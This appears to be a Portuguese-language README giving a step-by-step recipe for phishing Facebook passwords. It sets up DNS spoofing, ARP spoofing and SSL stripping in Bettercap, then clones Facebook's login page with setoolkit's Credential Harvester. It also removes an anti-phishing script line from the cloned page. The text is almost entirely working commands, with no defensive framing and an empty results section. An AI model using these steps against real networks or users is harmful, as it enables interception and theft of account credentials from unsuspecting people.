


# Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux (Sistema Operacional)
- setoolkit (ferramenta para captura dos dados - nativo do Kali Linux)
- Bettercap (ferramenta para mascarar URL com DNS spoof)

### Atualização e instalação de ferramentas no Kali Linux

- Passo 1 - Acesso root: ``` sudo su ```
- Passo 2 - Atualizando sistema operacional e repositórios: ``` apt update && sudo apt upgrade -y ```
- Passo 3 - Instalando o Bettercap: ``` apt install bettercap -y ```

### Configurando o DNS spoof no Bettercap

- Passo 1 - Verificando qual o nome da interface de rede: ``` ip a ```
- Passo 2 - Obtendo o endereço da máquina: ``` ifconfig ```
- Passo 3 - Executando o Bettercap no modo interativo: ``` bettercap -iface eth0 ```
- Passo 4 - Definindo o domínio a ser redirecionado: ``` set dns.spoof.domains http://face.book.com ```
- Passo 5 - Definindo o endereço de acesso da página: ``` set dns.spoof.address 192.168.1.13 ```
- Passo 6 - Ativando o DNS spoof: ``` dns.spoof on ```
- Passo 7 - Definindo o alvo do spoofing: ``` set arp.spoof.targets 192.168.1.11 ```
- Passo 8 - Ativando spoofing ARP (ataque MITM): ``` arp.spoof on ```
- Passo 9 - Ativando o SSLStrip (recurso que rebaixa conexões HTTPS para HTTP, possibilitando redirecionamento): ``` set http.proxy.sslstrip true ```
- Passo 10 - Definindo endereço IP do proxy: ``` set http.proxy.address 192.168.1.13 ```
- Passo 11 - Definindo porta do proxy: ``` set http.proxy.port 8080 ```
- Passo 12 - Ativando o proxy: ``` http.proxy on ```

### Configurando o Phishing no setoolkit

- Passo 1 - Iniciando o setoolkit: ``` setoolkit ```
- Passo 2 - Tipo de ataque: ``` 1) Social-Engineering Attacks ```
- Passo 3 - Vetor de ataque: ``` 2) Web Site Attack Vectors ```
- Passo 4 - Método de ataque: ``` 3) Credential Harvester Attack Method ```
- Passo 5 - Técnica de ataque: ``` 2) Site Cloner ```
- Passo 6 - Definindo IP do servidor: tecla enter
- Passo 7 - Definindo URL para clone: ```http://www.facebook.com```

### Removendo medidas anti-phishing da página clonada

- Passo 1 - Executando edição no arquivo index da página clonada: ``` nano /root/.set/web_clone/index.html ```
- Passo 2 - Buscar linha que valida os formulários e credenciais: ctrl + f ``` <script src= ```
- Passo 3 - Linha completa a ser removida: ``` <script src="https://static.xx.fbcdn.net/rsrc.php/v4/y0/r/w5OYqc0pmp2.js" data-bootloader-hash="lp6Cw4s" crossorigin="anonymous"></script> ```
- Passo 4 - Salvar alterações no arquivo: ctrl + o
- Passo 5 - Fechar arquivo: ctrl + x

### Resultados



